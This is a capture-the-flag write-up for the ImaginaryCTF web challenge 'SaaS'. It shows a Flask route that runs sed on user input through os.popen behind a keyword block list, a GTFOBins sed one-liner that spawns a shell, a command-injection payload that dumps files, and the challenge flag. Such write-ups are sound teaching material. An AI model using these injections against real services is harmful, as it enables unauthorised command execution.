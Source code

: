 ![ImaginaryCTF](../../banner.png)

# SaaS

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Web|307|

### Description

```
Welcome to Sed as a Service! Now you can filter lorem ipsum to your heart's desire!	
```

### Attachments

```
https://imaginaryctf.org/r/C279-app.py
http://saas.chal.imaginaryctf.org
```

![sed](sed.png)


```python
@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

We can see in the app.py that the website is just running sed on our input but filters it with a blacklist:

```py
blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]
```
So I had a look at [GTFOBins](https://gtfobins.github.io/gtfobins/sed/) where I found:

```
sed -n '1e exec sh 1>&0' /etc/hosts
```

So -n '1e cat flag.txt' should throw the flag. However flag and cat are blacklisted so just use head on all the files:

```
-n '1e head -c 100 *' 
```


There is our flag:
```
ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}
```